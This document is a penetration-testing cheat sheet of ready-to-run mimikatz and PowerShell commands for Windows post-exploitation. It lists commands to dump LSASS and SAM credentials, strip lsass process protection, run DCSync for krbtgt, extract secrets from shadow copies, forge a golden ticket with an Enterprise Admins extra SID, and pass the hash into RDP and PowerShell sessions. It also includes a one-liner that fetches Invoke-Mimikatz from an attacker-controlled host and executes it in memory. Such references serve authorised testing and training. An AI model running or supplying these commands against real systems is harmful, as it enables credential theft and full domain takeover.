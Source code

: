 # mimikatz

% mimikatz, passwords

## mimikatz onliner
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

## PowerShell - load mimikatz from remote
https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>:<port>/Windows/Invoke-Mimikatz.ps1') | IEX
```

## Invoke-mimikatz - dump credentials out of LSASS
```
Invoke-mimikatz -DumpCreds
```

## Invoke-mimikatz - export all private certificates
```
Invoke-mimikatz -DumpCerts
```

## Invoke-mimikatz - execute mimikatz command
```
Invoke-mimikatz -Command "<command|privilege::debug sekurlsa::logonpasswords>"
```

## mimikatz disable PPL and dump passwords
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe /remove" "sekurlsa::logonpasswords" "exit"
```

## mimikatz dcsync - user (krbtgt/Administrator)
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:<domain> /user:<user>" "exit"
```

## mimikatz extract credentials from dump
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"
```

## mimikatz extract credentials from shadow copy (1)
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
mimikatz.exe "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM"
```

## mimikatz extract credentials from shadow copy (2)
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER

Extract old passwords
```
mimikatz.exe "lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY"
```

## extract on hand shadow volume copy
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
powershell.exe "[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM', '.\Desktop\SYSTEM.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY', '.\Desktop\SECURITY.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM', '.\Desktop\SAM.bkp')"
```

% mimikatz, ad

## mimikatz extract tickets
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
sekurlsa::tickets /export
```

## mimikatz - forest extra SID
#platform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

sid : origin domain sid : Get-DomainSID -Domain domainname
sids :  ExtraSid value (Enterprise Admins SID) : parent SID
	
```powershell
kerberos::golden /user:<user> /domain:<domain> /sid:<child_sid> /krbtgt:<krbtgt_ntlm> /sids:<parent_sid>-519 /ptt
```

% mimikatz, pth
## mimikatz pth to RDP mstsc.exe
#platform/windows  #target/local  #cat/PIVOT 
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:"mstsc.exe /restrictedadmin"
```

## mimikatz pth run powershell remotelly
#platform/windows  #target/local  #cat/PIVOT 
Followed by : Enter-PSSession -Computer {<}computer_name}
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:powershell
```